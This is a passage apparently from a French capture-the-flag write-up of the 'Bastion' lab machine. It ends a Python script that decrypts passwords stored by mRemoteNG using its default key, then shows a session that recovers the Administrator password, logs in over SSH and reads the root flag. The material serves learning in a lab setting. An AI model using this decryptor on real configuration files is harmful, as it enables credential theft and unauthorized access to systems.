  group.add_argument("-s", "--string", help="base64 string of mRemoteNG password")
  parser.add_argument("-p", "--password", help="Custom password", default="mR3m")

  if len(sys.argv) < 2:
    parser.print_help(sys.stderr)
    sys.exit(1)

  args = parser.parse_args()
  encrypted_data = ""
  if args.file != None:
    with open(args.file) as f:
      encrypted_data = f.read()
      encrypted_data = encrypted_data.strip()
      encrypted_data = base64.b64decode(encrypted_data)

  elif args.string != None:
    encrypted_data = args.string
    encrypted_data = base64.b64decode(encrypted_data)

  else:
    print("Please use either the file (-f, --file) or string (-s, --string) flag")
    sys.exit(1)

  salt = encrypted_data[:16]
  associated_data = encrypted_data[:16]
  nonce = encrypted_data[16:32]
  ciphertext = encrypted_data[32:-16]
  tag = encrypted_data[-16:]
  key = hashlib.pbkdf2_hmac("sha1", args.password.encode(), salt, 1000, dklen=32)

  cipher = AES.new(key, AES.MODE_GCM, nonce=nonce)
  cipher.update(associated_data)
  plaintext = cipher.decrypt_and_verify(ciphertext, tag)
  print("Password: {}".format(plaintext.decode("utf-8")))

if __name__ == "__main__":
  main()
```

```bash
┌─[root@kali]─[~/bastion]
└──╼ #./decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
┌─[root@kali]─[~/bastion]
└──╼ #ssh Administrator@10.10.10.134
Administrator@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

administrator@BASTION C:\Users\Administrator>
administrator@BASTION C:\Users\Administrator>cd Desktop

administrator@BASTION C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\Administrator\Desktop

23-02-2019  09:40    <DIR>          .
23-02-2019  09:40    <DIR>          ..
23-02-2019  09:07                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  11.303.444.480 bytes free

administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
958xxxxxxxxxxxxxxxxxxxxxxxxxx5c8
administrator@BASTION C:\Users\Administrator\Desktop>

```

Et voilà le flag root.

#### Outils


